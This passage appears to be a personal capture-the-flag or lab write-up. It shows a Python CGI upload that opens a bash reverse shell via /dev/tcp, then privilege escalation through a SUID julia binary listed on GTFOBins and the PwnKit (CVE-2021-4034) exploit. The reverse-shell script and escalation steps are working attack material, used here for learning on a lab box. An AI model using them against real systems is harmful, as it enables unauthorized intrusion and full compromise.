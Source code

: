 If we upload a script

![[/Untitled 37 2.png|Untitled 37 2.png]]

If we upload this as .py the serves throws error

This (I found later) is because that we have to format the output

Final script

```Python
#!/usr/bin/python3
 
import os 
 
print("Content-type: text/html", end="\r\n\r\n", flush=True)
f = os.system("bash -c 'bash -i &>/dev/tcp/<IP>/<PORT>'")
print(f"{f}")
```

![[/Untitled 38 2.png|Untitled 38 2.png]]

![[/Untitled 39 2.png|Untitled 39 2.png]]

Now lets enumerate

![[/Untitled 40 2.png|Untitled 40 2.png]]

The binary /usr/bin/julia is a binary for Julia Lang

[https://julialang.org/downloads/platform/](https://julialang.org/downloads/platform/)

Now the binary appears in GTFO

> [!info] julia | GTFOBins  
> It can be used to break out from restricted environments by spawning an interactive system shell.  
> [https://gtfobins.github.io/gtfobins/julia/#suid](https://gtfobins.github.io/gtfobins/julia/#suid)  

![[/Untitled 41 2.png|Untitled 41 2.png]]

![[/Untitled 42 2.png|Untitled 42 2.png]]

### PwnKit ✅

Using dpkg -l I listed every package installed

![[/Untitled 43 2.png|Untitled 43 2.png]]

Basically this is the famous PwnKit vuln, a vulnerable Pkexec binary to elevate privs.

I used this repo

https://github.com/arthepsy/CVE-2021-4034

Once i created the script, I started a python server to download this into the victim’s machine after i establish the reverse shell
